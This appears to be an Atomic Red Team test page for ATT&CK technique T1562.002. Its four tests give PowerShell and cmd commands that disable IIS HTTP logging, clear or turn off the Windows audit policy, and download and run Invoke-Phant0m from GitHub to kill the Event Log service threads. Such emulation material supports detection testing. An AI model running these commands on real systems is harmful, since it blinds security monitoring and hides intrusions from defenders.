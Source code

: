 # T1562.002 - Disable Windows Event Logging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1562/002)
<blockquote>Adversaries may disable Windows event logging to limit data that can be leveraged for detections and audits. Windows event logs record user and system activity such as login attempts, process creation, and much more.(Citation: Windows Log Events) This data is used by security tools and analysts to generate detections.

Adversaries may targeting system-wide logging or just that of a particular application. By disabling Windows event logging, adversaries can operate while leaving less evidence of a compromise behind.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable Windows IIS HTTP Logging](#atomic-test-1---disable-windows-iis-http-logging)

- [Atomic Test #2 - Kill Event Log Service Threads](#atomic-test-2---kill-event-log-service-threads)

- [Atomic Test #3 - Impair Windows Audit Log Policy](#atomic-test-3---impair-windows-audit-log-policy)

- [Atomic Test #4 - Clear Windows Audit Policy Config](#atomic-test-4---clear-windows-audit-policy-config)


<br/>

## Atomic Test #1 - Disable Windows IIS HTTP Logging
Disables HTTP logging on a Windows IIS web server as seen by Threat Group 3390 (Bronze Union).
This action requires HTTP logging configurations in IIS to be unlocked.

Use the cleanup commands to restore some default auditpol settings (your original settings will be lost)

**Supported Platforms:** Windows


**auto_generated_guid:** 69435dcf-c66f-4ec0-a8b1-82beb76b34db





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| website_name | The name of the website on a server | string | Default Web Site|


#### Attack Commands: Run with `powershell`! 


```powershell
C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:true
```

#### Cleanup Commands:
```powershell
if(Test-Path "C:\Windows\System32\inetsrv\appcmd.exe"){
  C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:false *>$null
}
```





<br/>
<br/>

## Atomic Test #2 - Kill Event Log Service Threads
Kill Windows Event Log Service Threads using Invoke-Phant0m. WARNING you will need to restart PC to return to normal state with Log Service. https://artofpwn.com/phant0m-killing-windows-event-log.html

**Supported Platforms:** Windows


**auto_generated_guid:** 41ac52ba-5d5e-40c0-b267-573ed90489bd






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
$url = "https://raw.githubusercontent.com/hlldz/Invoke-Phant0m/f1396c411a867e1b471ef80c5c534466103440e0/Invoke-Phant0m.ps1"
$output = "$env:TEMP\Invoke-Phant0m.ps1"
$wc = New-Object System.Net.WebClient
$wc.DownloadFile($url, $output)
cd $env:TEMP
Import-Module .\Invoke-Phant0m.ps1
Invoke-Phant0m
```

#### Cleanup Commands:
```powershell
Write-Host "NEED TO Restart-Computer TO ENSURE LOGGING RETURNS" -fore red
Remove-Item "$env:TEMP\Invoke-Phant0m.ps1" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Impair Windows Audit Log Policy
Disables the windows audit policy to prevent key host based telemetry being written into the event logs.
[Solarigate example](https://www.microsoft.com/security/blog/2021/01/20/deep-dive-into-the-solorigate-second-stage-activation-from-sunburst-to-teardrop-and-raindrop/)

**Supported Platforms:** Windows


**auto_generated_guid:** 5102a3a7-e2d7-4129-9e45-f483f2e0eea8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
auditpol /set /category:"Account Logon" /success:disable /failure:disable
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable
auditpol /set /category:"Detailed Tracking" /success:disable
```

#### Cleanup Commands:
```cmd
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Detailed Tracking" /success:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```





<br/>
<br/>

## Atomic Test #4 - Clear Windows Audit Policy Config
Clear the Windows audit policy using auditpol utility. This action would stop certain audit events from being recorded in the security log.

**Supported Platforms:** Windows


**auto_generated_guid:** 913c0e4e-4b37-4b78-ad0b-90e7b25010f6






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
auditpol /clear /y
auditpol /remove /allusers
```

#### Cleanup Commands:
```cmd
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Detailed Tracking" /success:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```





<br/>
